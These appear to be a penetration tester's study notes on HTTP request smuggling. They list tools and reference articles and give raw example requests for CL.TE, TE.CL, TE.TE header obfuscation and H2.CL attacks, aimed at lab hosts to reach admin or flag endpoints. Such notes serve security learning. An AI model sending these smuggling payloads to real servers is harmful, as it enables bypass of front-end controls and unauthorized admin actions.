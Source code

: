 # Request Smuggling

It’s far more easier to search for articles explaining this concept.

## Tools

- HTTP Request Smuggler, Burp extension

```
# https://github.com/defparam/smuggler
python3 smuggler.py -u <URL>
```

## Articles

- [https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)
- [https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling](https://cobalt.io/blog/a-pentesters-guide-to-http-request-smuggling)
- [https://paper.seebug.org/1049/](https://paper.seebug.org/1049/)
- [https://blog.zeddyu.info/2019/12/08/HTTP-Smuggling-en/](https://blog.zeddyu.info/2019/12/08/HTTP-Smuggling-en/)

## Attacks

#### Content-Length

- request body length specified in the `Content-Length` header

Code: http

```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

param1=HelloWorld&param2=Test
```

#### Chunked Encoding

- `Transfer-Encoding` header set to `chunked` to specify chunked encoding
- Each chunk contains the chunk length in hex followed by a newline and the chunk data
- Request terminated with empty chunk `0`

Code: http

```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

1d
param1=HelloWorld&param2=Test
0


```

## CL.TE Vulnerability

- reverse proxy uses the `Content-Length` header, web server uses the `Transfer-Encoding` header

Code: http

```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: 
```

## TE.CL Vulnerability

- reverse proxy uses the `Transfer-Encoding` header, web server uses the `Content-Length` header

Code: http

```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb


0


```

## TE.TE Vulnerability

- obfuscate `Transfer-Encoding` header from one of the systems to provoke a CL.TE or TE.CL vulnerability

|Description|Header|
|---|---|
|Substring match|`Transfer-Encoding: testchunked`|
|Space in Header name|`Transfer-Encoding : chunked`|
|Horizontal Tab Separator|`Transfer-Encoding:[\x09]chunked`|
|Vertical Tab Separator|`Transfer-Encoding:[\x0b]chunked`|
|Leading space|`Transfer-Encoding: chunked`|
###### Tools
[HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)

![[Pasted image 20241106111249.png]]

## HTTP/2 Downgrading

- HTTP/2 is a binary protocol
- HTTP/2 uses pseudo-headers:
    - `:method`: the HTTP method
    - `:scheme`: the protocol scheme (typically `http` or `https`)
    - `:authority`: similar to the HTTP `Host` header
    - `:path`: the requested path including the query string
- HTTP/2 downgrading occurs when the reverse proxy rewrites an HTTP/2 request from the client to an HTTP/1.1 request which is forwarded to the web server

## H2.CL vulnerability

- Injection of a `Content-Length` header which is used by the web server after the request was rewritten by the reverse proxy

Code: http

```http
POST /index.php HTTP/2
Host: http2.htb
Content-Length: 0

POST /index.php?reveal_flag=1 HTTP/1.1
Foo: 


## Exploitation

- Bring impact by reporting smuggling chained with host injection. Users should make simple request with your injected header.